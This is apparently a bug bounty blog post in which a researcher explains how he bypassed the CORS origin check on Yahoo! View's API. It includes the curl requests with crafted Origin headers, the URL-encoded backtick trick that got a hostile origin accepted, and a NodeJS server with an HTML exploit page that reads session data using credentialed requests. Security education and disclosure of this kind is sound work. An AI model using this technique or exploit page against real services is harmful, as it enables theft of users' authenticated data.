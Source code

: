 ```yaml
---
layout: post
title: "Tricky CORS Bypass in Yahoo! View"
---
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Recently, HackerOne hosted their second Hack The World competition. During this time I decided to take a look at Yahoo's bug bounty program because I have heard good things about them and also due to the fact that their scope is pretty big. After finding a few issues in my.yahoo.com and getting paid for those, I decided I was going to test <a href="https://view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">Yahoo! View</a><br><br>
I decided to browse a bit on <a href="https://view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">https://view.yahoo.com</a> and look at what requests were being made. After about 2 minutes of clicking literally everything I could click and submitting as many forms as I could, I decided to look through everything Burp Suite logged.<br><br> 
I saw that the applicaiton  making API calls to <a href="https://api.view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">https://api.view.yahoo.com</a> and thanks to Burp Suite's passive monitoring, I also noticed that the application implemented a cross-origin resource sharing (CORS) policy.<br><br>According to the <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS">MDN Web Docs</a>, CORS "is a mechanism that uses additional HTTP headers to let a user agent gain permission to access selected resources from a server on a different origin (domain) than the site currently in use."<br><br>
Since browsers enforce a Same-Origin Policy, which means that it only accepts ajax requests from accessing data from the same domain, Cross-Origin Resource Sharing allows sharing data with other sites that can be specified. <br><br>The initial request I saw in Burp's history was:
```bash
GET /api/session/preferences HTTP/1.1
Host: api.view.yahoo.com
------- snip -------
origin: https://view.yahoo.com
```
and the server's response was:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com
```
Since the server was reflecting the origin and with `Access-Control-Allow-Credentials)` set to `true`, if I could get the origin to be allowed, then I could steal data from the API.<br><br>
First, I tried just sending a the origin `sxcurity.pro`:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://sxcurity.pro'
```
The server responded without the Allow-Origin and Allow-Credentials.
<br><br>
Next, I tried sending `view.sxcurity.pro` as the origin:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.sxcurity.pro'
```
Still nothing.<br><br>
An idea came to mind, what if I tried `view.yahoo.com.sxcurity.pro`?
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com.sxcurity.pro'
```
Voila! Still **DID NOT** respond with the Allow-Origin or ACAC. I had one more payload in mind: `view.yahoo.comsxcurity.pro`. I sent it and to my dismay, nothing had changed.
<br><br><br>I was about to give up when I came up with the idea to send *two domains* in the origin header:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com sxcurity.pro'
``` 
To my surprise the server responded with:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com sxcurity.pro
```
I was intrigued and was trying to come up with a way that I could make this a valid domain name so I could exploit it. I tried adding some characters to replace the space between the two domains to see what the server responded with!
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com%sxcurity.pro'
``` 
Response:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com%sxcurity.pro
```
This still wasn't exploitable because it wasn't valid.<br><br>
After a bit of asking around, <a href="https://twitter.com/mattaustin">Matt Austin</a> linked me to one of his <a href="https://hackerone.com/reports/255991">HackerOne Reports</a> to Brave Software. <br><br>
I decided to try using a **URL-Encoded backtick** / %60 since I saw it would be a valid subdomain (from his report) and I already saw that the origin was reflected when there was a percent sign.
<br>I sent:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com%60cdl.sxcurity.pro'
```
The server's response:
```bash 
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: http://view.yahoo.com%60cdl.sxcurity.pro
```
Yes, it worked! I set up a wildcard on one of my domains in Route53. I opened up Firefox and visited http://view.yahoo.com%60cdl.hack-r.be and it didn't load! Yay, more problems. I tried in Chrome, IE, & Edge and it didn't work in them either. I got to a Mac and tried it in **Safari** and it finally worked!! HOWEVER, Apache decided it didn't like the request and to keep throwing a server error.<br><br>![problems](/images/problems-meme.jpg "Problems")<br><br>After playing around I decided to just create a simple server in NodeJS to serve my exploit page.<br>
<br>
Contents of **server.js**:
```javascript
const http = require('http')
const port = 6299
const fs = require("fs");


const requestHandler = (request, response) => {
  fs.readFile("index.html", function(err, data){
  response.writeHead(200, {'Content-Type': 'text/html'});
  response.write(data);
  response.end();
});
}

const server = http.createServer(requestHandler)

server.listen(port, (err) => {
  if (err) {
    return console.log('[+] ruh roh! something went wrong :(', err)
  }

  console.log(`[+] server is listening on port ${port}`)
})
```
and contents of **index.html**:
```html
<!DOCTYPE html>
<html>
<head><title>CORS</title></head>
<body>
<center>
<h2>Yahoo CORs Exploit</h2>

<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
<button type="button" onclick="cors()">Exploit</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "http://api.view.yahoo.com/api/session/preferences", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
```
I ran it and tried loading the page again in Safari and it loaded perfectly. I clicked the "Exploit" button and it retrieved the data from the vulnerable API! woot woot!
<br><br>Here's the proof of concept video:
<br>
<iframe width="640" height="360" src="https://www.youtube.com/embed/lg31RYYG-T4" frameborder="0" gesture="media" allowfullscreen></iframe>
<br><br>Although it was a low impact bug, it was definitely a learning experience and a fun challenge!<br><br> 
Thanks for reading,<br><br>
**Corben Douglas** (<font color="#E22A3C">@sxcurity</font>)
- https://hackerone.com/cdl
- https://twitter.com/sxcurity
- https://bugcrowd.com/c
- https://github.com/sxcurity
